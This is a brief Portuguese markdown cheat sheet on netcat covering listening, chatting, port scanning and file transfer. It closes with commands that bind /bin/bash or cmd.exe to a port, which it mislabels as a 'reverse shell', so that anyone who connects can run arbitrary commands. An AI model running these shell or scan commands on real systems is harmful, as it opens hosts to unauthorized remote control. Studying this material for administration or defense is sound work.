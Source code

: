## Netcat (nc)

<https://nmap.org/ncat/>


Executar o NC no modo listen em um Linux:
```
nc -l -p 1337
```

Executar em outro computador o NC para conexão:
```
nc 192.168.0.5 1337
```

Escreva em qualquer lado e obterá a informação na outra ponta.

Pode-se simular / testar protocolos
```
nc -l -p 80 -vv
```

Scan de Rede:
```
nc -v -n -z 192.168.10.15 10-1024
```

Copiar arquivo:
```
nc -l -v -p 666 > test.txt
```
Do outro lado:
```
nc 192.168.0.5 666 < test.txt
```

Executar um Shell reverso:
```
nc -l -p 8822 -e /bin/bash
nc -l -p 666 -e cmd.exe
```

Do outro lado:
```
nc 192.168.0.5 8822
nc 192.168.0.7 666
```
```
execute qualquer comando linux.
execute qualquer comando windows.
```